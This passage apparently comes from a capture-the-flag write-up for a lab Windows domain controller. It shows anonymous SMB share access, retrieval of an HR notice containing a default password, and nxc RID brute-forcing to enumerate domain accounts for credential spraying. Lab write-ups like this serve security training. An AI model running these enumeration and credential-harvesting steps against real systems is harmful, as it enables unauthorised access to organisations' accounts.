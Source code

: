 ## Found password from "Notice from HR.txt" file
The Notice from HR.txt file disclosed the default credentials for a user account. These credentials were subsequently tested for validity and used to enumerate further information.
```shell
$ smbclient -N //10.10.11.35/HR -U 'x' 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 19:29:09 2024
  ..                                  D        0  Thu Mar 14 19:21:29 2024
  Notice from HR.txt                  A     1266  Thu Aug 29 00:31:48 2024

                4168447 blocks of size 4096. 341524 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (13.4 KiloBytes/sec) (average 13.4 KiloBytes/sec)
smb: \>
```

```
File: Notice from HR.txt

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

## Getting Username RID Bruteforce
RID brute-forcing was employed to enumerate valid usernames on the domain. This technique helped identify several user accounts, which were later used in credential spraying attempts.
```shell
$ nxc smb 10.10.11.35 -u 'x' -p '' --rid-brute | grep SidTypeUser                                                                                          
SMB                      10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
```
